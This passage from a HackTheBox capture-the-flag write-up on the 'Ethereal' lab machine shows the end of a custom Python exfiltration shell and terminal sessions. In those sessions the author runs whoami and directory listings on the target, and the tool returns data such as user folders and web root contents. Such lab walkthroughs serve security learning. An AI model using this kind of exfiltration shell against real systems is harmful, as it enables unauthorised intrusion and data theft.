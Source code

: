```python
            recv()

if __name__ == '__main__':
    shell()
```    

We still need to mess with the token parameter when we have output with spaces in it, but it make things but more manageable.

**whoami**
```
root@darkisland:~/hackthebox/Machines/Ethereal# ./exfil_alan.py 
$> whoami
(col#)> 
[+] Receiving data:
b'etherealalan'
```

**dir c:\users\alan**
```
$> dir /b c:\users\alan
(col#)> 
[+] Receiving data:
b'Contacts'
b'Desktop'
b'Documents'
b'Downloads'
b'Favorites'
b'Links'
b'Music'
b'Pictures'
b'Saved'
b'Searches'
b'Videos'
```

**dir c:\users\alan\desktop**
```
$> dir /b c:\users\alan\desktop
(col#)> 
[+] Receiving data:
b'note-draft\x03txt'
```

Too bad, there's no flag... let's keeping looking.

**dir c:\inetpub\wwwroot**
```
$> dir /b c:\inetpub\wwwroot
(col#)> 
[+] Receiving data:
b'corp'
b'default\x04aspx'
b'p1ng'
timed out
```

